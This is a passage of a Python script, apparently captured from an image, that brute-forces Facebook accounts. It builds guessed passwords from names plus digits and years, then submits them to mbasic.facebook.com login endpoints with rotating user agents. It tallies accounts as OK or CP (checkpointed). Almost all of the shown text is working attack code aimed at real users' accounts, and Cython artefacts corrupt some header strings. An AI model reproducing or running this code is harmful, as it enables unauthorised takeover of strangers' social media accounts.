 					pwv.append(frs+'123321')
					pwv.append(frs+'123456')
					pwv.append(frs+'12')
					pwv.append(frs+'1995')
					pwv.append(frs+'1996')
					pwv.append(frs+'1997')
					pwv.append(frs+'1998')
					pwv.append(frs+'1999')
					pwv.append(frs+'2000')
					pwv.append(frs+'2001')
					pwv.append(frs+'2002')
					pwv.append(frs+'2003')
					pwv.append(frs+'2004')
					pwv.append(frs+'2005')
				
			if 'ya' in pws:
				for xpwd in pws2:
					pwv.append(xpwd)
			else:pass
			if 'bapi' in method:
				xoshnaw.submit(bapi,idf,pwv)
			elif 'mobile' in method:
				xoshnaw.submit(mobile,idf,pwv)
			elif 'free' in method:
				xoshnaw.submit(free,idf,pwv)
			else:
				xoshnaw.submit(mbasic,idf,pwv)
	print('\n')
	print('\033[0;1m[ \033[31;1m+ \033[0;1m] 𝐓𝐀𝐖𝐀𝐖 𝐁𝐖 ')
	meno = input(' \033[0; 1m[  \033[31;1m+\033[0;1m] 𝐄𝐍𝐓𝐄𝐑 ');menu()


def bapi(idf,pwv):
	global loop,ok,cp
	sys.stdout.write(f"\r\033[0;1m[ \033[0;1m{loop} \033[0;1m• \033[1;91m{len(id)} \033[0;1m]  \033[0;1m[ \033[32;1mOK \033[0;1m] \033[32;1m{ok}  \033[0;1m[ \033[33;1mCP \033[0;1m] \033[33;1m{cp}"),
	sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	for pw in pwv:
		try:
			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,id;q=0.6,bs;q=0.5"})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://m.facebook.com/login/save-device/'"}
			ses.headers.update({"Host":'mbasic.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https:/m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,id;q=0.6,bs;q=0.5"})
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,allow_redirects=False)